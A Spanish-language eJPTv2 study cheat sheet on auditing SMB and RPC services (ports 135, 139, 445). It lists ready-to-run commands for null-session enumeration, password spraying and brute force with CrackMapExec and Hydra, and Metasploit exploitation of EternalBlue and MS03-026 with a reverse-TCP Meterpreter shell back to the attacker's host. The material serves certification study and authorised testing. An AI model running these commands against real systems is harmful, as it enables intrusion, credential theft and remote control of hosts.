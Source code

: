 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```



# 🔍 Puertos - 139,445 SMB

## Auditoría de Puertos 135,139/445 - SMB - RPC

Los puertos 139 y 445 son utilizados por el protocolo SMB (Server Message Block), que permite compartir archivos e impresoras en redes Windows. Debido a su importancia, es un objetivo frecuente en auditorías de seguridad.

## Principales herramientas para auditar servicios SMB

- 🔍 smbclient y smbmap: Interacción con recursos compartidos

- 🔧 rpcclient: Consultas RPC a servidores SMB

- 🛠️ Nmap + Scripts NSE: Enumeración y detección de vulnerabilidades

- 🔨 Metasploit: Módulos específicos para pruebas


## Proceso de auditoría recomendado

- Enumeración inicial con smbclient,smbmap,crackmapexec y Nmap

- Análisis de vulnerabilidades con scripts NSE

- Enumeración detallada con rpcclient

- Post-explotación y montaje de recursos

- Búsqueda de información sensible (en otro módulo)

## Herramientas esenciales para está auditoria:

- Smbclient

- Smbmap

- rpcclient

- Nmap

- Crackmapexec

## Puertos importantes:

- 135 (RPC)

- 445 (SMB)

- 137-139 (NetBIOS)

## Vulnerabilidades comunes:

- EternalBlue

- SMBGhost

- PetitPotam

- SMBleed

----

## 🕵️ Reconocimiento e identificación del Servicio SMB

Determinar la versión del servicio SMB es fundamental para detectar posibles vulnerabilidades. Podemos hacerlo de varias maneras:

```bash
nmap -p 139,445 --script smb-os-discovery <ip_victima>
nmap -p 139,445 --script smb-protocols <ip_victima>
nmap -p 139,445 --script smb-security-mode <ip_victima>
nmap --script "smb-enum-*" -p445 <ip_victima> # Lanzar todos los scripts de reconocimiento.
nmap --script smb-enum-shares -p 139,445 <ip_victima> # Identificación de Recursos Compartidos
nmap --script smb-enum-users -p 139,445 <ip_victima> # Identificación de Recursos Compartidos
```

 💡 Importante: SMBv1 es altamente vulnerable y puede ser explotado con herramientas como EternalBlue.


 ## 🔑 Uso de CrackMapExec para Enumeración de Usuarios y Recursos

```bash
crackmapexec smb <ip> # Realiza un escaneo básico de SMB en el host especificado.
crackmapexec smb <ip> -u '' -p '' --shares # Lista los recursos compartidos sin credenciales mediante una null session.
crackmapexec smb <ip> -u <usuario> -p <password> --shares # Lista los recursos compartidos proporcionando unas credenciales validas.
crackmapexec smb <ip> -u <usuario> -p <password> --users # Enumera los usuarios del sistema SMB del objetivo.
crackmapexec smb <ip> -u <usuario> -p <password> --groups # Lista los grupos de usuarios en la máquina SMB objetivo.
crackmapexec smb <ip> -u <username_wordlsit.txt> -p <'contraseña'> --continue-on-success # Probar para una lista de usuarios una misma contraseña.
```

Estos comando nos permite identificar la versión de SMB, recursos compartidos, usuarios y políticas de seguridad.

## 🔑 Uso de CrackMapExec para fuerza bruta

```bash
crackmapexec smb <ip> -u <username> -p <ruta_wordlist.txt> # Realizamos un ataque de fuerza bruta.
```

## 🔑 Uso de Smbclient y Smbmap para enumeración de usuarios y recursos

SMBMap y Smbclient permiten enumerar recursos compartidos y permisos.

```bash
smbclient -L <ip> -N # Intentamos listas los recursos compartidos con una null session.
smbmap -H <ip> # Realizamos el mismo escaneo que antes, pero esta vez no arrojará información de los permisos que tenemos para cada directorio.
smbclient //<ip>/<recurso> -N # Con este comando accederemos al recurso al que tengamos acceso.
smbmap -H <ip> -r <recurso> # Listamos el contenido del recurso al que apuntamos.
smbclient //<ip>/<recurso> -U <usuario>%<contraseña> # Listamos recursos con credenciales.
smbmap -H <ip> -u <usuario> -p <contraseña> -d <ominio> # Enumeración con credenciales
smbmap -R <carpeta> -H <ip> -A <archivo> -q # Descarga un archivo a tu maquina local.
```

## 💡 Comando útiles cuando consigues acceso:

```bash
dir # Listar contenido 
get <nombre_archivo> # Descargar archivo 
mget *.txt # Descarga múltiples archivos
put <nombre_archivo> # Subir archivo 
cd folder # Cambiar directorio
```

## 🔑 Uso de Metasploit para enumeración de usuarios y recursos

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_version
set RHOSTS <ip_victima>
run
```

## Enumeración de Recursos Compartidos en SMB

```
masconsole -q
use auxiliary/scanner/smb/smb_enumshares 
set RHOSTS <ip_victima> 
run
```

## Ataque EternalBlue (MS17-010) en SMB

```bash
msfconsole -q
use exploit/windows/smb/ms17_010_eternalblue 
set RHOSTS <ip_victima> 
set LHOST <tu_ip> 
set LPORT 4444 
exploit
```

## 🔑 Enumeración con Enum4Linux

Enum4linux es una herramienta wrapper que utiliza las utilidades de Samba para enumerar información:

```bash
enum4linux -a <ip> # Enumeración completa.
enum4linux -U <ip> # Enumeración de usuarios.
enum4linux -u <usuario> -p <password> -S <ip> # Enumerar shares con autenticación
enum4linux -a -u "" -p "" <ip> # Enumerar con null session
```

---

## 🔍 Auditoría del Servicio RPC con RPCClient y Metasploit

El puerto 135 (RPC) es un servicio en sistemas Windows que permite la comunicación entre procesos distribuidos. Este puerto es clave en la administración remota.

### 🕵️ Reconocimiento del Servicio RPC (Puerto 135)

```bash
nmap -p 135 --script=rpcinfo <ip_victima> # Identificar versión rpc.
```

## 🔑 Enumeración del Servicio RPC con RPCClient

Conexión al Servicio RPC

```bash
rpcclient -U "" <ip_victima> # Sin credenciales.
rpcclient -U "<usuario>%<contraseña>" <ip_victima> # Con credenciales.
enumdomusers # Enumeración de Usuarios en el Sistema
querygroup # Obtener Información de los Grupos
querydominfo # Identificar el Nombre del Dominio
lsaenumsid # Obtener SID del Dominio
```

El comando **rpcclient** de Samba nos permite interactuar con el servicio RPC para extraer información sobre el sistema Windows.

## 🚀 Ataques al Servicio RPC con Metasploit

Escaneo de Servicios RPC con Metasploit

```bash
msfconsole -q
use auxiliary/scanner/dcerpc/endpoint_mapper
set RHOSTS <ip_victima>
exploit
```

🎯 Explotación del Servicio RPC

```bash
use exploit/windows/dcerpc/ms03_026_dcom 
set RHOSTS <ip_victima> 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST <tu_ip> 
set LPORT 4444 
exploit
```


🛠️ Ataque de Fuerza Bruta en SMB con Hydra

```bash
hydra -L <diccionario_usuarios.txt> -P <diccionario_passwords.txt> smb://<ip_victima>
```

---


<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>